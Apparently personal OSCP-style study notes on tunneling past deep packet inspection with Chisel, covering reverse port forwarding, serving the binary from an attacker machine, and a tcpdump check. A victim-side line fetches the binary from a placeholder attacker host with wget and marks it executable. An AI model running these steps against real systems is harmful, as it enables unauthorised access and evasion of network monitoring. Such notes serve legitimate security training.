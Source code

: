 # Tunneling Through Deep Packet Inspection

- <https://en.wikipedia.org/wiki/Deep_packet_inspection>



## Chisel

- <https://github.com/jpillora/chisel/releases>
OSCP <https://github.com/jpillora/chisel/releases/tag/v1.7.7>

Is an HTTP tunneling tool that encapsulates our data stream within HTTP.

It also uses the SSH protocol within the tunnel so our data will be encrypted.

Chisel uses a client/server model.
A Chisel server must be set up, which can accept a connection from the Chisel client. 
Various port forwarding options are available depending on the server and client configurations.

One useful option is reverse port forwarding, which is similar to SSH remote port forwarding.


Older tools like `HTTPTunnel` offer similar tunneling functionality, but lack the flexibility and cross-platform capabilities of Chisel.
- <http://http-tunnel.sourceforge.net/>







1. We will run a Chisel server on our Kali machine, which will accept a connection from a Chisel client running on [VICTIM 1].

The Chisel server and client are actually run from the same binary, they're just initialized with either server or client as the first argument.
If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the Chisel Github releases page.

On ATTACKER MACHINE:
```
sudo systemctl start apache2
sudo cp $(which chisel) /var/www/html/
```

On VICTIM 1:
```
wget [ATTACKER]/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```





Once we have the Chisel binary on both our Kali machine and the target, we can run them.
On the Kali machine, we'll start the binary as a server with the server subcommand, along with the bind port (`--port`) and the `--reverse` flag to allow the reverse port forward.

On ATTACKER
```
chisel server --port 8080 --reverse


## run tcpdump on our Kali machine to log incoming traffic
sudo tcpdump -nvvvXi tun0 tcp port 8080
# Output:
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

On VICTIM 1
```

```





















































